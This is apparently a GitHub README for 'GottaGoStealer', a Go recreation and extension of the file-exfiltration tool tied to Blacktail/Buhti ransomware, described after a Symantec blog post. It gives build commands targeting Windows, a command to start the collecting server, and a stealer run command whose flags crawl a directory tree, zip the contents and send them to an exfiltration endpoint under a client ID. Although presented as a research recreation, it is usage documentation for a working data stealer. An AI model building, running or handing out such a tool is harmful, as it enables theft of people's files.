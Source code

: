 # GottaGoStealer
Blacktail/Buhti Ransomware Custom Exfiltration tool

I recreated the stealer described within a recent blog post by Symantec Threat Intelligence Team found here https://symantec-enterprise-blogs.security.com/blogs/threat-intelligence/buhti-ransomware.

This was never suppose to be good programing practice, nor extensivley created. I just wanted to try recreate and extend that project. 

See full blog post write up here: MEDIUM LINK


Tested on Windows 10 and MacOS Venture 13.4. It should work on Linux.

![alt text](images/6.Favicon%20stealer.png)

## How to build
`env GOOS=windows GOARCH=amd64 go build app.go`
or
`GOOS=windows GOARCH=amd64 go build app.go`

## Execute the web server
go run web.go

## Execute the GoGet Stealer 
go run app.go -o output.zip 
              -d '/Users/username/Downloads'
              -e 'http://127.0.0.1:8080' 
              -c linkedin
              
## Command Line Arguments
`-o is the output file flag. output.zip should be used for the SaaS backend to work correctly.`

`-d  The search directory to begin crawling. This will crawl all sub folders from here `

`-e the SaaS backend endpoint public address for file exfiltration`

`-c the client ID to identify which client the data was sent from.`
